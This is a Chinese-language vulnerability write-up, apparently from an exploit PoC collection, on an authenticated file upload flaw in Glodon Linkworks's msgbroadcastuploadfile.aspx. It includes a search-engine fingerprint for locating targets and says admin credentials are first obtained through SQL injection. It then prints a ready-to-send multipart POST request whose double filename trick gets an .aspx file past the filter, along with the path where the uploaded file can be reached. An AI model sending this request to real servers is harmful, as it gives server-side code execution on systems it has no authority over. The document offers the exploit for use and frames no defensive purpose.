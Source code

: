 # 

# 广联达 Linkworks msgbroadcastuploadfile.aspx 后台文件上传漏洞

## 漏洞描述

广联达 Linkworks msgbroadcastuploadfile.aspx 存在后台文件上传漏洞，攻击者通过SQL注入获取管理员信息后，可以登陆发送请求包获取服务器权限

## 漏洞影响

广联达 Linkworks

## 网络测绘

```
web.body="/Services/Identification/"
```

## 漏洞复现

登陆页面

![image-20230828150337640](images/image-20230828150337640.png)

GTP.IM.Services.Group.WebSite.GTP.IM.Services.Group 存在文件上传，上传后在当前目录 Upload下

![image-20230828150355277](images/image-20230828150355277.png)

通过SQL注入获取管理员账号密码后登陆后台上传文件,验证POC

```
POST /gtp/im/services/group/msgbroadcastuploadfile.aspx HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Cookie: 0_styleName=styleA

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; filename="1.aspx";filename="1.jpg"
Content-Type: application/text

Test

------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

![image-20230828150407255](images/image-20230828150407255.png)

```
/GTP/IM/Services/Group/Upload/xxx-xxx-test.aspx
```

![image-20230828150419196](images/image-20230828150419196.png)
